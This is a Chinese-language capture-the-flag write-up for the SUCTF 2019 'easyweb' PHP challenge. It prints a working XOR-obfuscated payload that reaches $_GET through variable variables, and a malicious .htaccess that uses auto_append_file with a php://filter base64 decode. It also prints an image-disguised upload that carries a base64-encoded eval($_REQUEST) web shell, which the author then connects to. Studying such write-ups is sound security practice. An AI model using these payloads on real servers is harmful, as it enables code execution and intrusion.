 限制挺猛的... 看的 wp

[https://github.com/team-su/SUCTF-2019/blob/master/Web/easyweb/wp/SUCTF 2019 Easyweb.md](https://github.com/team-su/SUCTF-2019/blob/master/Web/easyweb/wp/SUCTF 2019 Easyweb.md)

思路是利用可变变量 `${$a}` +  `$_GET` 跳出长度限制, 然后上传 .htaccess 配合 php.ini 中的设置 + php://filter 过滤器绕过内容检测

这里有个知识点: 字符与 `0xff` 异或相当于自身取反

构造 payload (刚好 18 字符)

```
${%A0%B8%BA%AB^%ff%ff%ff%ff}{%ff}();&%ff=phpinfo
```

其中 `%A0%B8%BA%AB` 就是 `_GET` 取反后的结果, 然后通过可变变量变成 `$_GET`

注意 get 传参的参数也得是不可见字符

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211021659545.png)



flag 在 phpinfo 里面直接就能看到了... 预期解的思路是上传文件 然后利用 .htaccess 中的 `php_value` 来设置 php.ini 的部分内容 (类似 .user.ini), 然后利用 `auto_append_file` 插入 php 代码

但因为上传的文件中过滤了 `<?`, 所以我们需要通过 php://filter 中的过滤器来绕过 (`auto_append_file` 其实就是 include, 也支持伪协议), 方法很多 (utf-7 utf-16 base64 等等), 这里以 base64 为例

.htaccess

```php
#define width 1337
#define height 1337
AddType application/x-httpd-php .xxx

php_value auto_append_file "php://filter/read=convert.base64-decode/resource=123.xxx"
```

123.xxx

```
GIF89AaaPD9waHAgZXZhbCgkX1JFUVVFU1RbMV0pO3BocGluZm8oKTs/Pg
```

开头的 `GIF89A` 用来绕过 `exif_imagetype()`, 其中 `PD9waHAgZXZhbCgkX1JFUVVFU1RbMV0pO3BocGluZm8oKTs/Pg` 后面本来要补两个 `=`, 但 `GIF89A` 一共 6 个字符, 所以干脆就把 `=` 删掉并在 `GIF89A` 后面补上了两个 a

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211021715148.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211021715617.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211021715539.png)

连接查看 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211021718717.png)

环境还是跟原题不一样... 没办法了
